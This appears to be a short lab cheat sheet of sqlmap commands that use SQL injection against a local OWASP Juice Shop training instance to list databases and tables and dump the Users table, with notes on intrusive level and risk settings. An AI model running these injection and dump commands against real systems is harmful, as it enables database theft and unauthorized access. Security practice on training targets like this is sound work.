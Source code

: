 # Commands for SQLMAP

These examples are referencing OWASP Juice Shop where I performed an SQLite Dump

## Simple command 
`` sqlmap -u "http://localhost:3000/rest/products/search?q=apple" --batch --dbs

**--batch = auto answer defaults (so it doesn’t prompt you)
--dbs = enumerate databases**

## List tables
``sqlmap -u "http://localhost:3000/rest/products/search?q=apple" -D main --tables

## Table Dump
``sqlmap -u "http://localhost:3000/rest/products/search?q=apple" -D main -T Users --dump

## To test with more parameters for more dbs such as SQLLite use command
``sqlmap -u "http://localhost:3000/rest/products/search?q=apple" --batch --dbs --level=5 --risk=3

**--level 5 → tests more parameters & payloads

--risk 3 → includes potentially intrusive/time-based payloads**

## To List the tables present within this db
``sqlmap -u "http://localhost:3000/rest/products/search?q=apple" --batch --level=5 --risk=3 --dbms=SQLite --tables

## For dump 
sqlmap -u "http://localhost:3000/rest/products/search?q=apple" --batch --level=5 --risk=3 --dbms=SQLite -T Users --dump

** After -T, add any table name parameter listed after viewing the table list.